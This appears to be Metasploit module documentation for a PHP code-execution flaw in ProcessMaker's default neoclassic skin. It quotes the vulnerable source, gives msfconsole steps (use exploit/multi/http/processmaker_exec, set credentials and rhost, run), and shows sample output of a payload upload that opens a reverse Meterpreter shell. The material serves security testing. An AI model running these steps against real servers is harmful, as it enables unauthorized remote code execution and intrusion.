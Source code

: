 ## Description

  This module exploits a PHP code execution vulnerability in the default *neoclassic* skin for [ProcessMaker Open Source](http://www.processmaker.com/) which allows any authenticated user to execute PHP code. The vulnerable skin is installed by default in version 2.x prior to 2.5.2 and cannot be removed via the web interface.


## Vulnerable Application

  ProcessMaker is an open source, workflow management software suite, which includes tools to automate your workflow, design forms, create documents, assign roles and users, create routing rules, and map an individual process quickly and easily. It's relatively lightweight and doesn't require any kind of installation on the client computer.

  This module has been tested successfully on ProcessMaker Open Source versions:

  * 2.5.1 on Windows XP SP3
  * 2.5.0 on Windows XP SP3
  * 2.0.45 on Debian Linux
  * 2.0.23 on Windows XP SP3

  The vulnerability was patched in version 2.5.2.

  Source and Installers:

  * [ProcessMaker Open Source 2.0.x](https://sourceforge.net/projects/processmaker/files/ProcessMaker/2.0/)
  * [ProcessMaker Open Source 2.5.x](https://sourceforge.net/projects/processmaker/files/ProcessMaker/2.5/)


## Technical Details

  Several files within the default *neoclassic* skin allow authenticated users to supply a PHP function in the `action` parameter and arguments for the aforementioned function in the `params` parameter. The application calls the supplied function name with the supplied parameters resulting in execution of arbitrary user supplied PHP code.

  The relevant source code for the affected files is shown below.

  **appFolder/appFolderAjax.php**

  ```php
  if (($_REQUEST['action']) != 'rename') {
      $functionName = $_REQUEST ['action'];
      $functionParams = isset ($_REQUEST ['params']) ? $_REQUEST ['params'] : array ();
      $functionName ($functionParams);
  ```

  **cases/casesStartPage_Ajax.php**

  ```php
  $functionName = $_REQUEST['action'];
  $functionParams = isset( $_REQUEST['params'] ) ? $_REQUEST['params'] : array ();
  $functionName( $functionParams );
  ```

  **cases/cases_SchedulerGetPlugins.php**

  ```php
  $functionName = $_REQUEST['action'];
  $functionParams = isset( $_REQUEST['params'] ) ? $_REQUEST['params'] : array ();
  $functionName( $functionParams );
  ```


## Verification Steps

  1. Start `msfconsole`
  2. Do: `use exploit/multi/http/processmaker_exec`
  3. Do: `set username [USER]`
  4. Do: `set password [PASS]`
  5. Do: `set rhost [IP]`
  6. Do: `run`
  7. You should get a session


## Sample Output

  ```
  msf exploit(processmaker_exec) > check
  [*] 192.168.172.135:80 - Authenticating as user 'admin'
  [+] 192.168.172.135:80 - Authenticated as user 'admin'
  [*] 192.168.172.135:80 - Sending check
  [+] The target is vulnerable.

  msf exploit(processmaker_exec) > exploit
  [*] Started reverse handler on 192.168.172.1:4444
  [*] 192.168.172.135:80 - Authenticating as user 'admin'
  [+] 192.168.172.135:80 - Authenticated as user 'admin'
  [*] 192.168.172.135:80 - Sending payload 'V7hd5EevO9Ho.php' (1795 bytes)
  [+] 192.168.172.135:80 - Payload sent successfully
  [*] 192.168.172.135:80 - Retrieving file 'V7hd5EevO9Ho.php'
  [*] Sending stage (39195 bytes) to 192.168.172.135
  [*] Meterpreter session 3 opened (192.168.172.1:4444 -> 192.168.172.135:32789) at 2013-10-29 09:53:08 -0500
  [+] Deleted V7hd5EevO9Ho.php

  ^C[-] Exploit failed: Interrupt

  meterpreter > getuid
  Server username: www-data (33)
  meterpreter > sysinfo
  Computer    : processmaker
  OS          : Linux processmaker 3.2.0-4-amd64 #1 SMP Debian 3.2.51-1 x86_64
  Meterpreter : php/php
  meterpreter > exit
  ```

